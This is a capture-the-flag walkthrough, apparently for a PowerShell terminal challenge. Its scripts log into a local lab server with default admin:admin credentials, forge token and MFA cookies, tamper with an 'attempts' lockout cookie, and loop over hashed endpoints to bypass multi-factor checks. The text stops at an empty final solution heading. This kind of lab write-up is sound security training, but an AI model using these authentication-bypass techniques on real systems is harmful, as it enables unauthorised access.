




## Objective

## Hints


## Solution 
### Silver

- y


>[!TIP]
>Use the cmdlet 'Get-Content' to read the file.


```powershell
Get-Content ./welcome.txt
```


> [!TIP]
> The 'Measure-Object' cmdlet can help you count the words. Use `Get-Help Measure-Object` for more information.


```powershell
Get-Content ./welcome.txt | Measure-Object -Word
```


> [!TIP]
> Use netstat to find the port.


```powershell
netstat -ano
```


> [!TIP]
> Use Invoke-WebRequest to get the page content.


```powershell
Invoke-WebRequest -Uri "http://127.0.0.1:1225" -Method Get
```


> [!TIP]
> Use Get-Credential to set your authentication, and Invoke-WebRequest to get the page content. Try the username and password admin:admin.


```powershell
$User = "admin"; $Pass = ConvertTo-SecureString "admin" -AsPlainText -Force; $Creds = New-Object System.Management.Automation.PSCredential ($User, $Pass); Invoke-WebRequest -Uri "http://127.0.0.1:1225" -Method Get -Credential $Creds -AllowUnencryptedAuthentication;
```


> [!TIP]
> Loop through the links by piping numbers to Invoke-WebRequest. Then use Measure-Object to count the words.


```powershell
$r = Invoke-WebRequest -Uri "http://127.0.0.1:1225" -Method Get -Credential $Creds -AllowUnencryptedAuthentication; Write-Output $r.Content; Write-Output $r.Links;
```


```powershell
# Base URL
$BaseUrl = "http://127.0.0.1:1225"

# Loop through all the endpoints
for ($i = 1; $i -le 50; $i++) {
    $Endpoint = "$BaseUrl/endpoints/$i"
    
    try {
        # Make the request
        $Response = Invoke-WebRequest -Uri $Endpoint -Method Get
        
        # Count words in the content
        $WordCount = ($Response.Content -split '\s+').Count
        
        # Check for 138 words
        if ($WordCount -eq 138) {
            Write-Output "Match found at $Endpoint with $WordCount words."
            break
        } else {
            Write-Output "Checked $Endpoint - Word Count: $WordCount"
        }
    } catch {
        Write-Output "Error accessing $Endpoint : $($_.Exception.Message)"
    }
}
```

```powershell
$BaseUrl = "http://127.0.0.1:1225"; for ($i = 1; $i -le 50; $i++) { $Endpoint = "$BaseUrl/endpoints/$i"; try { $Response = Invoke-WebRequest -Uri $Endpoint -Method Get; $WordCount = ($Response.Content -split '\s+').Count; if ($WordCount -eq 138) { Write-Output "Match found at $Endpoint with $WordCount words."; break; } else { Write-Output "Checked $Endpoint - Word Count: $WordCount"; } } catch { Write-Output "Error accessing $Endpoint : $($_.Exception.Message)"; } }
```

```powershell
$r = Invoke-WebRequest -Uri "http://127.0.0.1:1225/endpoints/13" -Method Get -Credential $Creds -AllowUnencryptedAuthentication; Write-Output $r.Content;
```


> [!TIP]
> Use Invoke-WebRequest to get the page content.


```powershell
$r = Invoke-WebRequest -Uri "http://127.0.0.1:1225/token_overview.csv" -Method Get -Credential $Creds -AllowUnencryptedAuthentication; Write-Output $r.Content
```


> [!TIP]
> Use Invoke-WebRequest to download the file and Get-Content to read the file.


```powershell
Invoke-WebRequest -Uri "http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C" -Method Get -Credential $Creds -AllowUnencryptedAuthentication
```


> [!TIP]
>  Use [Microsoft.PowerShell.Commands.WebRequestSession] to store cookies in your session.


```powershell
$WebSession = New-Object Microsoft.PowerShell.Commands.WebRequestSession; $WebSession.Cookies.Add((New-Object System.Net.Cookie("token", "5f8dd236f862f4507835b0e418907ffc", "/", "127.0.0.1"))); $r = Invoke-WebRequest -Uri "http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C" -Method Get -Credential $Creds -AllowUnencryptedAuthentication -WebSession $WebSession; Write-Output $r.Content
```

- /mfa_validate/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C

> [!TIP]
> You might need to chain commands together. If you are having trouble with the output scrolling off the screen, 'Out-Host -Paging' might help you.



```powershell
$WebSession.Cookies.Add((New-Object System.Net.Cookie("mfa_token", "1732141595.5882165", "/", "127.0.0.1")))
```

```powershell
# BEFORE ITS A ONE LINER

$response = Invoke-WebRequest -Uri "http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C" -Method Get -Credential $Creds -AllowUnencryptedAuthentication -WebSession $WebSession
$mfaHref = ($response.Links | Where-Object { $_.outerHTML -like "*mfa_validate*" }).href
Write-Output "value: $mfaHref"
$WebSession.Cookies.Add((New-Object System.Net.Cookie("mfa_token", $mfaHref, "/", "127.0.0.1")))
Invoke-WebRequest -Uri "http://127.0.0.1:1225//mfa_validate/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C" -Method Get -Credential $Creds -AllowUnencryptedAuthentication -WebSession $WebSession
```

```powershell
$response = Invoke-WebRequest -Uri "http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C" -Method Get -Credential $Creds -AllowUnencryptedAuthentication -WebSession $WebSession; $mfaHref = ($response.Links | Where-Object { $_.outerHTML -like "*mfa_validate*" }).href; Write-Output "value: $mfaHref"; $WebSession.Cookies.Add((New-Object System.Net.Cookie("mfa_token", $mfaHref, "/", "127.0.0.1"))); $r=Invoke-WebRequest -Uri "http://127.0.0.1:1225/mfa_validate/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C" -Method Get -Credential $Creds -AllowUnencryptedAuthentication -WebSession $WebSession; Write-Output $r.Content
```


> [!TIP]
> PowerShell is very flexible when it manages strings with System.Text.Encoding. If your output is garbled, perhaps you need to define the correct encoding.


```powershell
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("Q29ycmVjdCBUb2tlbiBzdXBwbGllZCwgeW91IGFyZSBncmFudGVkIGFjY2VzcyB0byB0aGUgc25vdyBjYW5ub24gdGVybWluYWwuIEhlcmUgaXMgeW91ciBwZXJzb25hbCBwYXNzd29yZCBmb3IgYWNjZXNzOiBTbm93TGVvcGFyZDJSZWFkeUZvckFjdGlvbg=="))
```


>[!NOTE]
>Nothing here requires you to solve these only after the question is prompted; so you could use 1 giant one liner that answers all the questions
>```powershell 
>Get-Content ./welcome.txt; Get-Content ./welcome.txt | Measure-Object -Word; Invoke-WebRequest -Uri "http://127.0.0.1:1225" -Method Get; $User="admin"; $Pass=ConvertTo-SecureString "admin" -AsPlainText -Force; +$Creds=New-Object System.Management.Automation.PSCredential($User, $Pass); Invoke-WebRequest -Uri "http://127.0.0.1:1225" -Method Get -Credential $Creds -AllowUnencryptedAuthentication; $r=Invoke-WebRequest -Uri "http://127.0.0.1:1225" -Method Get -Credential $Creds -AllowUnencryptedAuthentication; Write-Output $r.Content; Write-Output $r.Links; $BaseUrl="http://127.0.0.1:1225"; for($i=1;$i-le50;$i++){ $Endpoint="$BaseUrl/endpoints/$i"; try{$Response=Invoke-WebRequest -Uri $Endpoint -Method Get; $WordCount=($Response.Content -split '\s+').Count; if($WordCount -eq 138){Write-Output "Match found at $Endpoint with $WordCount words."; break;} else{Write-Output "Checked $Endpoint - Word Count: $WordCount";}} catch{Write-Output "Error accessing $Endpoint : $($_.Exception.Message)";}}; $r=Invoke-WebRequest -Uri "http://127.0.0.1:1225/endpoints/13" -Method Get -Credential $Creds -AllowUnencryptedAuthentication; Write-Output $r.Content; $r=Invoke-WebRequest -Uri "http://127.0.0.1:1225/token_overview.csv" -Method Get -Credential $Creds -AllowUnencryptedAuthentication; Write-Output $r.Content; Invoke-WebRequest -Uri "http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C" -Method Get -Credential $Creds -AllowUnencryptedAuthentication; $WebSession=New-Object Microsoft.PowerShell.Commands.WebRequestSession; $WebSession.Cookies.Add((New-Object System.Net.Cookie("token","5f8dd236f862f4507835b0e418907ffc","/","127.0.0.1"))); $r=Invoke-WebRequest -Uri "http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C" -Method Get -Credential $Creds -AllowUnencryptedAuthentication -WebSession $WebSession; Write-Output $r.Content; $WebSession.Cookies.Add((New-Object System.Net.Cookie("mfa_token","1732141595.5882165","/","127.0.0.1"))); $response=Invoke-WebRequest -Uri "http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C" -Method Get -Credential $Creds -AllowUnencryptedAuthentication -WebSession $WebSession; $mfaHref=($response.Links|Where-Object{ $_.outerHTML -like "*mfa_validate*"}).href; Write-Output "value: $mfaHref"; $WebSession.Cookies.Add((New-Object System.Net.Cookie("mfa_token",$mfaHref,"/","127.0.0.1"))); $r=Invoke-WebRequest -Uri "http://127.0.0.1:1225/mfa_validate/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C" -Method Get -Credential $Creds -AllowUnencryptedAuthentication -WebSession $WebSession; Write-Output $r.Content; [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("Q29ycmVjdCBUb2tlbiBzdXBwbGllZCwgeW91IGFyZSBncmFudGVkIGFjY2VzcyB0byB0aGUgc25vdyBjYW5ub24gdGVybWluYWwuIEhlcmUgaXMgeW91ciBwZXJzb25hbCBwYXNzd29yZCBmb3IgYWNjZXNzOiBTbm93TGVvcGFyZDJSZWFkeUZvckFjdGlvbg=="));

### Gold
```powershell
$User = "admin"; $Pass = ConvertTo-SecureString "admin" -AsPlainText -Force; $Creds = New-Object System.Management.Automation.PSCredential ($User, $Pass);
$r = Invoke-WebRequest -Uri "http://127.0.0.1:1225/token_overview.csv" -Method Get -Credential $Creds -AllowUnencryptedAuthentication; Write-Output $r.Content > hashes.txt

Get-Content hashes.txt | Where { $_ -notmatch "^#" } | Set-Content hashes_only.txt
Remove-Item hashes.txt
Rename-Item hashes_only.txt hashes.txt
```

#### Troubleshooting The Hash

>[!NOTE]
>The headers for the csv note that the SHA256 Hash is supposed to be the hash of `file_MD5Hash`.  So creating a file and then hashing that with SHA256 is likely the answer; with the content being the MD5 Hash
>

| Endpoint MD5                     | SHA256                                                           |
| -------------------------------- | ---------------------------------------------------------------- |
| 5f8dd236f862f4507835b0e418907ffc | 4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C |

```powershell
$filePath = "content.txt"; Write-Output "5f8dd236f862f4507835b0e418907ffc" > $filePath; $hash = Get-FileHash -Path $filePath -Algorithm SHA256; Write-Output "Hash: $($hash.Hash)"
Hash: 4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C  
```

#### Convert The File Containing Hashes To Better Hashes
```powershell
# Define the input and output file paths
$inputFile = "hashes.txt"
$outputFile = "hashed_output.txt"

# Initialize an array to store results
$results = @()
$row = 0

# Read the input file line by line
Get-Content -Path $inputFile | ForEach-Object {

    # Skip headers
    if ($row -eq 0) {
        $row++
        return
    }

    # Split each line by the comma (assuming CSV-like format)
    $columns = $_ -split ","

    # Extract the first column (MD5 hash)
    $md5Hash = $columns[0].Trim()

    # Write the MD5 hash to a temporary file
    $tempFilePath = "md5hash.txt"
    $md5Hash | Out-File -FilePath $tempFilePath -Encoding UTF8 -Force

    # Compute the SHA256 hash from the file content
    $sha256HashBytes = Get-FileHash -Path $tempFilePath -Algorithm SHA256
    $sha256Hash = $sha256HashBytes.Hash.ToLower()

    # Add the result to the output array
    $results += "$md5Hash,$sha256Hash"
}

# Write the results to the output file
$results | Out-File -FilePath $outputFile -Encoding UTF8

# Output a success message
Write-Output "Hashes processed and saved to $outputFile"
Get-Content $outputFile | Where { $_ -notmatch "^," } | Set-Content endpoint_hashes.txt
```

- Starting Point (Before Above Code)
```csv
04886164e5140175bafe599b7f1cacc8,REDACTED
664f52463ef97bcd1729d6de1028e41e,REDACTED
3e03cd0f3d335c6fb50122553f63ef78,REDACTED
f2aeb18f5b3f08420eed9b548b6058c3,REDACTED
32b9401a6d972f8c1a98de145629ea9d,REDACTED
3a79238df0a92ab0afa44a85f914fc3b,REDACTED
49c2a68b21b9982aa9fd64cf0fd79f72,REDACTED
f8142c1304efb9b7e9a7f57363c2d286,REDACTED
706457f6dd78729a8bed5bae1efaeb50,REDACTED
bb0564aa5785045937a35a9fa3fbbc73,REDACTED
4173a7bc22aee35c5fc48261b041d064,REDACTED
198b8bf2cd30a7c7fed464cca1720a88,REDACTED
3a7c8ecffeeadb164c31559f8f24a1e7,REDACTED
288e60e318d9ad7d70d743a614442ffc,REDACTED
87ab4cb29649807fdb716ac85cf560ea,REDACTED
89f3ec1275407c9526a645602d56e799,REDACTED
33539252b40b5c244b09aee8a57adbc9,REDACTED
152899789a191d9e9150a1e3a5513b7f,REDACTED
7cd48566f118a02f300cdfa75dee7863,REDACTED
d798a55fca64118cea2df3c120f67569,REDACTED
6ef5570cd43a3ec9f43c57f662201e55,REDACTED
bf189d47c3175ada98af398669e3cac3,REDACTED
743ac25389a0b430dd9f8e72b2ec9d7f,REDACTED
270aabd5feaaf40185f2effa9fa2cd6e,REDACTED
8b58850ee66bd2ab7dd2f5f850c855f8,REDACTED
6fd00cbda10079b1d55283a88680d075,REDACTED
612001dd92369a7750c763963bc327f0,REDACTED
010f2cc580f74521c86215b7374eead6,REDACTED
29860c67296d808bc6506175a8cbb422,REDACTED
7b7f6891b6b6ab46fe2e85651db8205f,REDACTED
45ffb41c4e458d08a8b08beeec2b4652,REDACTED
d0e6bfb6a4e6531a0c71225f0a3d908d,REDACTED
bd7efda0cb3c6d15dd896755003c635c,REDACTED
5be8911ced448dbb6f0bd5a24cc36935,REDACTED
1acbfea6a2dad66eb074b17459f8c5b6,REDACTED
0f262d0003bd696550744fd43cd5b520,REDACTED
8cac896f624576d825564bb30c7250eb,REDACTED
8ef6d2e12a58d7ec521a56f25e624b80,REDACTED
b4959370a4c484c10a1ecc53b1b56a7d,REDACTED
38bdd7748a70529e9beb04b95c09195d,REDACTED
8d4366f08c013f5c0c587b8508b48b15,REDACTED
67566692ca644ddf9c1344415972fba8,REDACTED
8fbf4152f89b7e309e89b9f7080c7230,REDACTED
936f4db24a290032c954073b3913f444,REDACTED
c44d8d6b03dcd4b6bf7cb53db4afdca6,REDACTED
cb722d0b55805cd6feffc22a9f68177d,REDACTED
724d494386f8ef9141da991926b14f9b,REDACTED
67c7aef0d5d3e97ad2488babd2f4c749,REDACTED
5f8dd236f862f4507835b0e418907ffc,4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C
```

- Results Of Code

| Endpoint MD5                     | SHA256                                                           |
| -------------------------------- | ---------------------------------------------------------------- |
| 04886164e5140175bafe599b7f1cacc8 | dfd05f3b46d21bc8556cdbf544325a945ed0304ec0bb7dbfd68ed5931e7ff6ee |
| 664f52463ef97bcd1729d6de1028e41e | 1f3c45d7e7b1f7621f67136c538c6933791d3392648c7b0f8b17fb1a6343ebd5 |
| 3e03cd0f3d335c6fb50122553f63ef78 | e2dbbdbcc7e57e526841899975b6621105710e76c203c1dc30419e7f1cba5297 |
| f2aeb18f5b3f08420eed9b548b6058c3 | bc83a2c7a6279ead36370ab3509fea7483eff83c164fc7cfe3c680d879b9f9d2 |
| 32b9401a6d972f8c1a98de145629ea9d | b93772d2393029424049564b366f08b21e66282ce3d7b9da4f7a69c8891012a0 |
| 3a79238df0a92ab0afa44a85f914fc3b | 989fde082fb901ae5edfd873bf41a76bf47b318f76968d0275dad99abd5894b4 |
| 49c2a68b21b9982aa9fd64cf0fd79f72 | e2b80b2c70ba5982814b758849472c8711af8051e5261ce827c02818d7e1de8c |
| f8142c1304efb9b7e9a7f57363c2d286 | 704fecc829a3acb5e50e3277eafc03ca902e515cfd81bfa94670a44aca551d6a |
| 706457f6dd78729a8bed5bae1efaeb50 | f5251b4ca89f3c4eb6bbcf40ad41abc870ffb8bfc4d1e170df7ed88f23e20568 |
| bb0564aa5785045937a35a9fa3fbbc73 | a9fba920d17e1b98f393e691ec837a0ca41be8115389f2a634f77dceeaf20725 |
| 4173a7bc22aee35c5fc48261b041d064 | af2b19cc9cee8005c95a321605fb2aab8577c66ebd762cc2df943fee47987d86 |
| 198b8bf2cd30a7c7fed464cca1720a88 | 0f8b6bd4b5d006bd7a0fceeba10a7726430ea9af7fa4314c0a83e17acaea32b6 |
| 3a7c8ecffeeadb164c31559f8f24a1e7 | 38810a7bea5587438cbfa6a0c364619ca4f886ec403be951cf38f5158d7da4f9 |
| 288e60e318d9ad7d70d743a614442ffc | a93f039a2d5158251d509afb2bf6bc45dec47d8ac189a170a23caea07f009476 |
| 87ab4cb29649807fdb716ac85cf560ea | 89298b15becc2f6c98c53ebfebf1c91d7d569cb0895b22f840bd3b9ca400e9f7 |
| 89f3ec1275407c9526a645602d56e799 | f6bc096e3570c6622ea951b3cfb852e116d0e1460576fb9fbe6f6b75dccb46c7 |
| 33539252b40b5c244b09aee8a57adbc9 | 3877cd419e2d8907c09de27c68babfbcd88a9d8f7bebdb4385aff288d0a39631 |
| 152899789a191d9e9150a1e3a5513b7f | 1e257fca2443492c6b8621bee3117e9de40d6d6e1a7ca4861079fb74cb9dc164 |
| 7cd48566f118a02f300cdfa75dee7863 | ac7458460e359b3b940540168affc7fa354c3cc05a52a52a1a6de0538ae60ec8 |
| d798a55fca64118cea2df3c120f67569 | 65d70badac127dac0bcc4962107b708a37cf24b8dcd327c328a3c59a610f18ee |
| 6ef5570cd43a3ec9f43c57f662201e55 | e2692776b6ecd2c39373ced96f7ff8b64aeae56404352cf06aefc724cc4c7cf1 |
| bf189d47c3175ada98af398669e3cac3 | e433feb9de55166463e0bd4ba14a3cc099bd1ba1abf20fd290491bda3d3cf2e6 |
| 743ac25389a0b430dd9f8e72b2ec9d7f | cf056ae6605f7909a7e6126716e528b863807d2dc153a4d5aa00714ac72aadc4 |
| 270aabd5feaaf40185f2effa9fa2cd6e | f732a928cda0c4a51284f8b28401eac228ca2769804cfbcc16f2c8a0c58713f2 |
| 8b58850ee66bd2ab7dd2f5f850c855f8 | d2e0f89c295194775b9835f646f5bdd950eb05cb6d912602ce4ff62a30ebe437 |
| 6fd00cbda10079b1d55283a88680d075 | 7a50d248e3991bf55c361e119faa292c8661f0eb6476c868db3289793391e12f |
| 612001dd92369a7750c763963bc327f0 | bc9f1a7214052f7ad3fb5076a1862e24dc71808ba27c5d9c584d681f6c3afe6b |
| 010f2cc580f74521c86215b7374eead6 | 5bbe0d45c6a1fd01a7641ff4807009efc91fd7f5637dded8b71ad8e2ada5d086 |
| 29860c67296d808bc6506175a8cbb422 | 8fcff56c3c425a8a7163493b1f17fb330ad89fbbefddd9c5d226196c4c327bbb |
| 7b7f6891b6b6ab46fe2e85651db8205f | f892f608096e56013c3ed96e4f984c6376617c42e328e20382660370ff181ce4 |
| 45ffb41c4e458d08a8b08beeec2b4652 | d040356e54ca166cd0479d9878fc9ba1012a80419a846a58a24649f4f01b63f8 |
| d0e6bfb6a4e6531a0c71225f0a3d908d | ff1a98e7bb3d9f87c4495ee7d62c455cbad6c6a6ad4abba25a503b7c1ae113c1 |
| bd7efda0cb3c6d15dd896755003c635c | 6297f422314ea9e9172752f3a891bd505752c5f14fcab93153bcb1038fb5ab87 |
| 5be8911ced448dbb6f0bd5a24cc36935 | 04519f7af02a977a27a8d9398e86354117537fa896c437019a61f46d31bfd339 |
| 1acbfea6a2dad66eb074b17459f8c5b6 | 5a4b06401ad22fa4cf75fe22829cb14549c4f18a18c67beb16d314b80a4f44d9 |
| 0f262d0003bd696550744fd43cd5b520 | abf98108dbd1095a59bae36726fac48e3ab23da2cf2effeae02ef5c142cb76fe |
| 8cac896f624576d825564bb30c7250eb | 2dda00da692764113b97787241658a1911aeb4c0bd9b92e4fab4ffcb1fe15a33 |
| 8ef6d2e12a58d7ec521a56f25e624b80 | ce92890075a6232a039bcb06b83adf90355119a99da8d694c85681e310191bb9 |
|b4959370a4c484c10a1ecc53b1b56a7d | ae311ebe101c6ac4e11e4e338906ecedc22583fad68b85834eed3cb684fc4383
|38bdd7748a70529e9beb04b95c09195d | acab8d777a0c5f9d631b4fe6e07cc14b7e063c1e48ee8a0ab876d12082ad3fea
|8d4366f08c013f5c0c587b8508b48b15 | 01b1f4132e95b847d89fcdc599fd685e26198aa684196663c4c0b51b1a410dc4
|67566692ca644ddf9c1344415972fba8 | 368ef0eb3bd563c81f658e6c47182524256f09212010774b00939a440dabd9f6
|8fbf4152f89b7e309e89b9f7080c7230 | b3395dc1f995f897f36e5ab99b7a3eada186713cc40785bb33f06c4d7c989673
|936f4db24a290032c954073b3913f444 | 9992b3b85730ea436a546086036520bcf15d86b1a2a8f96e4d3c569148f770d3
|c44d8d6b03dcd4b6bf7cb53db4afdca6 | 35138166ced99d6a600b52f70c818cf44826170fd88b8234107ec0bd51cc276d
|cb722d0b55805cd6feffc22a9f68177d | 15d6e335c167dea490ac4cd91815c56d7ecef3cd4b019588567710d839a9ea45
|724d494386f8ef9141da991926b14f9b | 2ae009872b65d788e44f634736689af1570333fd802b93b41df09a3f7d02c0e1
|67c7aef0d5d3e97ad2488babd2f4c749 | bac2f3580b6491cbf26c84f5dcf343d3f48557833c79cf3efb09f04be0e31b60
|5f8dd236f862f4507835b0e418907ffc | 4216b4faf4391ee4d3e0ec53a372b2f24876ed5d124fe08e227f84d687a7e06c

- Iterate the file listing
```powershell
# Define the input file path (output from the previous script)
$inputFile = "endpoint_hashes.txt"
$cookieValue = "" # c25ha2VvaWwK01 TO c25ha2VvaWwK10

# Read each line from the file
Get-Content -Path $inputFile | ForEach-Object {

    # Split the line into MD5 and SHA256 columns
    $columns = $_ -split ","
    $md5Hash = $columns[0].Trim()
    $sha256Hash = $columns[1].Trim()

    # Create a new web session
    $WebSession = New-Object Microsoft.PowerShell.Commands.WebRequestSession

    # Step 1: Add the "token" cookie with MD5 and the "attempts" cookie
    $WebSession.Cookies.Add((New-Object System.Net.Cookie("token", $md5Hash, "/", "127.0.0.1")))
    $WebSession.Cookies.Add((New-Object System.Net.Cookie("attempts", $cookieValue, "/", "127.0.0.1")))

    # Step 2: Send the first request to /tokens/[SHA256]
    $response = Invoke-WebRequest -Uri "http://127.0.0.1:1225/tokens/$sha256Hash" -Method Get -Credential $Creds -AllowUnencryptedAuthentication -WebSession $WebSession

    # Step 3: Extract the mfa_validate href
    $mfaHref = ($response.Links | Where-Object { $_.outerHTML -like "*mfa_validate*" }).href
    # Write-Output "MFA Token: $mfaHref for $sha256Hash using a cookie with values { 'token' : '$md5Hash' }"

    # Step 4: Add the "mfa_token" cookie with the extracted href
    $WebSession.Cookies.Add((New-Object System.Net.Cookie("mfa_token", $mfaHref, "/", "127.0.0.1")))

    # Step 5: Send the second request to /mfa_validate/[SHA256]
    $finalResponse = Invoke-WebRequest -Uri "http://127.0.0.1:1225/mfa_validate/$sha256Hash" -Method Get -Credential $Creds -AllowUnencryptedAuthentication -WebSession $WebSession

    # Output the content of the final response (COMMENTED OUT WHEN NOT DEBUGGING SCRIPT)
    # Write-Output $finalResponse.Content > "$md5Hash.txt"
    #
	# $WebSession.Cookies.GetCookies("http://127.0.0.1:1225") | ForEach-Object { 
	#	Write-Output "Name: $($_.Name), Value: $($_.Value), Domain: $($_.Domain), Path: $($_.Path)" >> "$md5Hash.txt"
	# }

	# FINAL REQUIRED STEP -- IF YOU DO NOT DO THIS, YOU WILL NOT GET GOLD:
	$cookieValue = $WebSession.Cookies.GetCookies("http://127.0.0.1:1225") | Where-Object { $_.Name -eq "attempts" } | Select-Object -First 1 -ExpandProperty Value 
	# Write-Output "Current Token $cookieValue"
}
```

#### Complete Gold Solution (One Liner)
```powershell
